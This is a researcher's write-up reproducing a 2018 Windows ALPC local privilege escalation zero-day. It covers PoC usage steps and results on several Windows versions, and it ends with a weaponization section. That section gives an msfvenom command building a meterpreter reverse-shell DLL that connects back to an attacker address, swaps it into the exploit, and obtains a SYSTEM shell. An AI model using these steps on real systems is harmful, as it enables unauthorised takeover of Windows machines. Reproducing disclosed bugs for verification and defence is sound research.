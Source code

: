 # ALPC bug 0day

[https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar](https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar)

{% embed data="{\"url\":\"https://www.theregister.co.uk/2018/08/28/windows\_0day\_pops\_up\_out\_of\_span\_classstrikenowherespan\_twitter/\",\"type\":\"link\",\"title\":\"Windows 0-day pops up out of nowhere Twitter\",\"description\":\"Local privilege escalation in procedure calls\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.theregister.co.uk/Design/graphics/icons/vulture\_black\_60\_trans.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://regmedia.co.uk/2017/05/03/panic\_shutterstock.jpg?x=1200&y=794\",\"width\":1200,\"height\":794,\"aspectRatio\":0.6616666666666666}}" %}

## How to use

A 0day for a local priv esc for Windows was published August 28th on Twitter by @sandboxescaper, whose account was pulled quickly. The PoC is on [Github](https://github.com/SandboxEscaper/randomrepo). The video posted with the PoC wasn't evident so I made a quick reproduction to verify whether it works, and it certainly does.

* As Administrator, open [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) - right click, "Run as administrator"
* As a regular user, launch notepad. If you opened it from cmd, you get a subprocess notepad inside cmd. This thread runs with the user context you launched it with. Note that the PID of the notepad process is `3872`

![](../.gitbook/assets/image%20%2812%29.png)

![](../.gitbook/assets/image%20%2822%29.png)

* If you need to see username and  integrity level in Process Explorer you can go to View -&gt; Select columns and check 

![](../.gitbook/assets/image%20%2826%29.png)

Now, have a look at the process spoolsv.exe which is basically where the actions is going to happen. Nothing much here yet.

![](../.gitbook/assets/image%20%2832%29.png)

Now fire the exploit off and see what happens \(this is demonstrated in the PoC video\). We use the PID of the notepad process we spawned earlier `3872`

![](../.gitbook/assets/image%20%283%29.png)

Now, it appears that nothing is happening, but take a look at spoolsv in Process Explorer again.

![](../.gitbook/assets/image%20%282%29.png)

Bham! cmd.exe with subprocesses conhost and notepad has spawned as SYSTEM! 

### Windows 10 - works!

0day priv esc confirmed on Windows 10 1803. No patch has been released by MS yet \(28.08.2018\)

![](../.gitbook/assets/image%20%286%29.png)

This could probably be tweaked to open an actual cmd window as SYSTEM instead of a windowless process in the background.

Edit on the above: @plaintext notified me that the processes spawn in session 0 which is why they won't be visible to the user which operations in session 1. If you toggle Session in the columns panel in ProcExplorer you can see that very clearly.

![](../.gitbook/assets/image%20%2811%29.png)

###  Server 2016 - works

![](../.gitbook/assets/image%20%2828%29.png)

### Windows 7 - Nothing happens

![](../.gitbook/assets/image%20%2833%29.png)

\*\*\*\*

### Weaponization maybe?

After reading the source code I discovered that notepad is launched from the `exploit.dll` added as a Resource. This can be seen at line 101-105 in the source code.

```text
//Payload is included as a resource, you need to modify this resource accordingly.
HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
unsigned int myResourceSize = ::SizeofResource(mod, myResource);
HGLOBAL myResourceData = ::LoadResource(mod, myResource);
void* pMyBinaryData = ::LockResource(myResourceData);
```

When clicking that one, we can see this exploit.dll which in the PoC just spawns notepad can't be read since I don't have it in that absolute path.

![](../.gitbook/assets/image%20%2825%29.png)

So instead of recompiling and fixing the 500 errors I got from visual studio I decided it was easier to replace the dll directly as a  Resource with [CFF Explorer](https://ntcore.com/?page_id=388)'. But before I did that I had to prepare the payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.16 lport=444 -f dll -o lol.dll`

Select "Replace Resource \(raw\)" in CFF Explorer and provide the `lol.dll`. Then save the `ALPC-TaskSched-LPE.dll` as a new file. The entire exploit is now embedded into the dll file

![](../.gitbook/assets/image%20%2838%29.png)

So we  fire of the exploit again, just like we did above and wait for our shell to come back.

Woop de doo we got a SYSTEM meterpreter.

![](../.gitbook/assets/image%20%2820%29.png)

